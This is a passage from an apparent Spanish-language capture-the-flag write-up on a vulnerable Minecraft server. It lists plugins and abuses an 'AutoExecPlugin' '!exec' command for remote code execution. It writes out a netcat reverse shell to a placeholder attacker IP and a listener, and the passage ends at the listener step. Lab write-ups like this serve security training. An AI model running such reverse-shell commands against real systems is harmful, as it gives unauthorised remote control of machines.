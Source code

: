 Le daremos a `Done` y si refrescamos tendremos que ver el server activo asi:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-18 104427.png" alt=""><figcaption></figcaption></figure>

Ahora seleccionaremos el servidor y le daremos al boton llamado `Join Server` esto nos metera dentro del mundo de `Minecraft` del servidor.

## Escalate Privileges

Una vez dentro del mundo vamos a probar a listar los `plugins` de esta forma desde `Minecraft`.

```shell
/pl
```

Info:

```
Plugins (2): AutoOpPlugin, AutoExecPlugin
```

Vemos que esta el `plugin` que encontramos del `.txt` por lo que vamos a probar a ejecutar lo que mencionaba en el `.txt` para poder ejecutar comandos con `!exec` acompañado de un comando del sistema.

```shell
!exec whoami
```

Info:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-18 104434.png" alt=""><figcaption></figcaption></figure>

Vemos que se esta ejecutando de forma correcta podremos realizar un `RCE`, por lo que vamos a probar a generarnos una `reverse shell` de esta forma.

```shell
!exec nc <IP_ATTACKER> <PORT> -e /bin/sh
```

Antes de ejecutarlo tendremos que ponernos a la escucha desde nuestra maquina `host`.

```shell
nc -lvnp <IP>
```
